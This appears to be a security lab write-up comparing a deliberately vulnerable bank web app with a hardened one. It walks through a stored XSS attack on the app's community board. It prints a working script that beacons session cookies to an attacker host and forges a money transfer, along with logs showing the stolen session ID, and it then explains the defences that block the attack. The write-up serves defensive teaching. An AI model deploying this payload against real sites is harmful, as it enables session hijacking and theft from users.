










# Stored XSS on the community board

Mallory posts a script on the bank's community board. Anyone who reads the board runs it, hands over their session cookie and sends him €100. The same attack against the hardened bank fails at several independent layers. Exact steps to reproduce it are in [ATTACKS.md](../ATTACKS.md).

Setup: Alice is logged in to the bank in a normal Chrome window. Mallory uses an Incognito window of the same browser, so the two of them have separate cookies.

## Vulnerable bank

### Mallory posts

Both Alice and Mallory are logged into the bank. Unfortunately for Alice, Mallory chose chaos today.

After politely greeting everyone, he decided to take advantage of a stored XSS vulnerability on the website.



The payload:

```html
<script>
addEventListener('DOMContentLoaded', async () => {
  const me = /Post as (\w+)/.exec(document.body.innerText)?.[1];
  if (!me || me === 'mallory') return; // only fire for victims
  const leak = (d) => { new Image().src = "http://attacker.localhost:4000/collect?target=vulnerable&data=" + encodeURIComponent(d); };
  leak(me + ' cookie: ' + (document.cookie || '(nothing readable: HttpOnly)'));
  const csrf = document.querySelector('input[name=csrf]')?.value ?? '';
  const body = new URLSearchParams({ csrf, to: 'mallory', amount: '100' });
  const res = await fetch('/transfer', { method: 'POST', body });
  leak(me + ' sent €100 to mallory: HTTP ' + res.status);
});
</script>
```

### What the script does

The board inserts every post into the page as raw HTML, so Mallory's message turns into a working script element. It runs in the browser of everyone who opens the board, with their session.

1. `addEventListener('DOMContentLoaded', ...)` waits until the whole page is parsed. The post sits in the middle of the board, and the two things the script needs (the "Post as alice" button and the CSRF token) come after it in the HTML. Run any earlier and they don't exist yet.
2. `/Post as (\w+)/` reads the name on the post button to find out who is looking. If nobody is logged in, or the viewer is Mallory himself, the script stops. Otherwise Mallory would leak his own cookie and try to send money to himself, which the bank refuses anyway.
3. `leak()` sends data out by creating an image whose URL points at Mallory's server, with the stolen data in the query string. Browsers fetch images from anywhere this CSP allows, which is everywhere (`img-src *`). Mallory never needs to read the response, so CORS doesn't get a say.
4. `document.cookie` returns Alice's session cookie, because the cookie isn't `HttpOnly`. That's the first thing sent home.
5. The CSRF token comes straight from the hidden input in the board's post form. The token is there to prove a request came from the bank's own page, and this one does.
6. `fetch('/transfer', ...)` posts the transfer. The URL is relative, so the request goes to the bank's own origin and the browser attaches Alice's cookie by itself. To the bank it looks exactly like Alice pressing Send.
7. The second `leak()` reports the result. HTTP 200 is the account page after the redirect, so the money moved.

### Alice reads the board

Alice admired her €1000 balance and decided to check the community board on her bank, as one does.



On screen, Mallory's second post is a name, a timestamp and nothing else. Odd, but nobody files a bug report about a blank post. DevTools shows what's really there: a live `<script>` element inside the post's `<div>`.



Nothing interesting, apart from everything happening in the background. The server logs (`docker compose logs -f`) tell the story from both sides:

```
bank-vuln-1  | [bank-vuln] GET /board  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] GET /static/style.css  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] POST /board  origin=http://bank.localhost:3000  session-cookie=yes
bank-vuln-1  | [bank-vuln]   CORS: allowed origin http://bank.localhost:3000
bank-vuln-1  | [bank-vuln] GET /board  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] GET /static/style.css  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] POST /board  origin=http://bank.localhost:3000  session-cookie=yes
bank-vuln-1  | [bank-vuln]   CORS: allowed origin http://bank.localhost:3000
bank-vuln-1  | [bank-vuln] GET /board  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] GET /static/style.css  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] GET /board  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] GET /static/style.css  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] POST /transfer  origin=http://bank.localhost:3000  session-cookie=yes
bank-vuln-1  | [bank-vuln]   CORS: allowed origin http://bank.localhost:3000
bank-vuln-1  | [bank-vuln]   TRANSFER €100 alice -> mallory
attacker-1   | [attacker] GET attacker.localhost/collect  persona=attacker
attacker-1   | [attacker]   LOOT from vulnerable: alice cookie: sid=hycRh6JM8XHEZnBW04ZTOBaDhIV-GUFeFaaT2ffQN5w
bank-vuln-1  | [bank-vuln] GET /account  origin=-  session-cookie=yes
attacker-1   | [attacker] GET attacker.localhost/collect  persona=attacker
attacker-1   | [attacker]   LOOT from vulnerable: alice sent €100 to mallory: HTTP 200
```

The two `POST /board` lines are Mallory: the friendly greeting, then the payload. Every same-origin POST also produced `CORS: allowed origin http://bank.localhost:3000`, which is the bank's substring check solemnly approving the bank talking to itself. Browsers send `Origin` on same-origin POSTs too, so the CORS code runs on requests that never needed it. Harmless here, but it's the same broken check that [F-02](../ATTACKS.md#f-02--cors-substring-check-leaks-the-account-and-csrf-token) abuses.



### The forged transfer

Captured in DevTools → Network:

```http
POST /transfer HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
Content-Length: 70
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Cookie: sid=hycRh6JM8XHEZnBW04ZTOBaDhIV-GUFeFaaT2ffQN5w
Host: bank.localhost:3000
Origin: http://bank.localhost:3000
Referer: http://bank.localhost:3000/board
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
User-Agent: [REDACTED]
sec-ch-ua: "Not-A.Brand";v="99", "Google Chrome";v="157", "Chromium";v="157"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
```

This request is indistinguishable from a real one. `Origin` is the bank, `Sec-Fetch-Site` is `same-origin`, the session cookie is attached, and `Content-Length: 70` is exactly `csrf=<43-character token>&to=mallory&amount=100`. Every check the bank could make about where a request came from passes, because it really did come from the bank's page.

### The cookie leaving the building

```http
GET /collect?target=vulnerable&data=alice%20cookie%3A%20sid%3DhycRh6JM8XHEZnBW04ZTOBaDhIV-GUFeFaaT2ffQN5w HTTP/1.1
Accept: image/jxl,image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
Host: attacker.localhost:4000
Referer: http://bank.localhost:3000/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: cross-site
Sec-Fetch-Storage-Access: active
User-Agent: [REDACTED]
sec-ch-ua: "Not-A.Brand";v="99", "Google Chrome";v="157", "Chromium";v="157"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
```



As far as Chrome is concerned this is an image (`Sec-Fetch-Dest: image`, `Sec-Fetch-Mode: no-cors`). Mallory's server answers `204 No Content`, and Chrome happily accepts an image with no image in it. The cookie travels in the URL, so it also lands in Mallory's server logs.

The `Referer` is only `http://bank.localhost:3000/`, without `/board`. The bank sets no `Referrer-Policy`, so Chrome applied its default, `strict-origin-when-cross-origin` (visible in the General section above), which shares only the origin with other sites. And Mallory's own server answers with `X-Powered-By: Express`. Header hygiene is not his strong suit either.

### It keeps going

Nothing limits the script to one run. Every time Alice opens the board, another €100 goes to Mallory. Two views seven seconds apart (18:59:45 and 18:59:52) cost her €200.



Mallory watched it all from the loot panel in his Incognito window:



Every cookie entry carries the same `sid`. The session never changes, so Mallory now holds six copies of a key that only needed stealing once.

## What went wrong

### 1. No output encoding

This is the root cause. In the vulnerable profile `escapeHtml` returns its input untouched, so anything a user types goes into the page as HTML. The same mistake makes `/account?notice=` and `/transfer?to=` reflected XSS sinks as well. The hardened bank encodes `& < > " '` on output and the payload shows up as harmless text.

### 2. A CSP that exists but doesn't protect

The board response carries:

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src * data:
```

A scanner that checks for the header's presence would tick the box. In practice `'unsafe-inline'` allows any inline script, injected ones included, and `img-src *` hands the payload its exfiltration channel. `'self'` doesn't help either, since it only covers script files loaded from the bank and never inline code.

The hardened bank sends `script-src 'nonce-<random>' 'strict-dynamic'` with a fresh nonce on every response, plus `img-src 'self'` and `default-src 'none'`. An injected script has no nonce and never runs, and even if it did, the image beacon to another site would be blocked.

### 3. Session cookie readable by JavaScript

```
Set-Cookie: sid=...; Path=/; Secure; SameSite=None
```



No `HttpOnly`, so step 4 works. `SameSite=None` plays no part in this attack (everything happens on the bank's own origin), though it's what makes the other three attacks work. The hardened cookie is `HttpOnly; SameSite=Lax`.

`HttpOnly` only removes step 4. Steps 5 to 7 still work, because the script doesn't need the cookie to act as Alice. It just asks Alice's browser to do it.

### 4. A stolen session works anywhere, indefinitely

The session ID is a bearer token. Paste it into another browser and you are Alice. Sessions never expire and aren't tied to anything about the original browser, which is why the loot panel shows the same `sid` every time. Neither bank fixes this yet; an idle timeout and session rotation would at least shrink the window.

### 5. Moving money needs nothing but a session

A transfer to a new payee goes through on the session alone. Real banks ask for a second factor or an explicit confirmation for new payees, and that is the control that would stop step 6 even with working XSS. Neither bank has it.

### 6. Smaller header issues

`X-Powered-By: Express` advertises the framework for free, and there's no `Referrer-Policy` or `X-Content-Type-Options`. None of these enabled the attack. The hardened bank removes the banner and sets the other two.

### Response headers side by side

`curl -sI` against `/board` on both banks (plus `Set-Cookie` from the login response):

| Header | Vulnerable (`:3000`) | Hardened (`:3001`) |
| --- | --- | --- |
| `Content-Security-Policy` | `default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src * data:` | `default-src 'none'; script-src 'nonce-2tyrpOiXmJ01ZGrE16Mgjg==' 'strict-dynamic'; style-src 'self'; img-src 'self'; connect-src 'self'; form-action 'self'; base-uri 'none'; object-src 'none'; frame-ancestors 'none'` |
| `Set-Cookie` (login) | `sid=…; Path=/; Secure; SameSite=None` | `sid=…; Path=/; HttpOnly; SameSite=Lax` |
| `X-Powered-By` | `Express` | (removed) |
| `X-Frame-Options` | (missing) | `DENY` |
| `X-Content-Type-Options` | (missing) | `nosniff` |
| `Referrer-Policy` | (missing, so Chrome's default applies) | `no-referrer` |
| `Permissions-Policy` | (missing) | `camera=(), microphone=(), geolocation=()` |
| `Cross-Origin-Opener-Policy` | (missing) | `same-origin` |

<details>
<summary>Raw curl output</summary>

```
$ curl -sI http://localhost:3000/board
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src * data:
Vary: Origin
Content-Type: text/html; charset=utf-8
Content-Length: 1585
ETag: W/"631-lcLeZscOXXQJUzDm5bsPrbWmOMs"
Date: Sun, 08 Nov 2026 18:55:32 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

```
$ curl -sI http://localhost:3001/board
HTTP/1.1 200 OK
X-Frame-Options: DENY
Content-Security-Policy: default-src 'none'; script-src 'nonce-2tyrpOiXmJ01ZGrE16Mgjg==' 'strict-dynamic'; style-src 'self'; img-src 'self'; connect-src 'self'; form-action 'self'; base-uri 'none'; object-src 'none'; frame-ancestors 'none'
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
Permissions-Policy: camera=(), microphone=(), geolocation=()
Cross-Origin-Opener-Policy: same-origin
Vary: Origin
Content-Type: text/html; charset=utf-8
Content-Length: 678
ETag: W/"2a6-VLTZImwaR4e6MPz3eCfx8KLJWxM"
Date: Sun, 08 Nov 2026 18:56:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

</details>

### What each layer would have stopped

| Control | Effect on this attack |
| --- | --- |
| Output encoding | Stops all of it: the script never reaches the browser |
| Nonce-based CSP | Script reaches the browser but doesn't run |
| `img-src 'self'` | Script runs but can't send the cookie out with an image |
| `HttpOnly` | Cookie can't be read; the transfer still happens |
| CSRF token, `SameSite`, Origin checks | Nothing. The request really is same-origin |
| Step-up confirmation for new payees | Transfer blocked even with working XSS |

## Hardened bank

Same steps, same payload (with `target=hardened`), on http://bank-safe.localhost:3001.

The post shows up as text, payload and all, squashed into one paragraph because HTML collapses the line breaks. In DevTools the post's `<div>` holds a single quoted text string where the vulnerable bank had a `<script>` element. The escaping itself is visible in the raw response (View Source): `&lt;script&gt;`.



Nothing reached the loot panel, and Alice's balance stayed at €1000 however many times she read the board. I left out the screenshot of the empty loot panel. It is exactly as exciting as it sounds.

The session cookie is `HttpOnly` and `SameSite=Lax`:



The `Secure` column is empty here, while the vulnerable cookie has it ticked. That one's on the lab. Chrome only accepts `SameSite=None` together with `Secure`, so the vulnerable bank had to set it, and the hardened profile leaves it off because everything runs on plain HTTP. In production this cookie would be `Secure` and named with the `__Host-` prefix.

Encoding stopped the attack before the CSP ever had a say. If a page somewhere had missed the encoding, the nonce-based CSP would have refused to run the script, `img-src 'self'` would have blocked the beacon, and `HttpOnly` would have kept the cookie out of reach anyway.

## Takeaway

The fix for this bug lives in one function, `escapeHtml`. The headers decide how much a missed call to it costs: with the vulnerable bank's CSP and cookie, one blank-looking post was worth a session and €100 per page view. With the hardened ones, the same mistake would have produced an error in the console and nothing else.
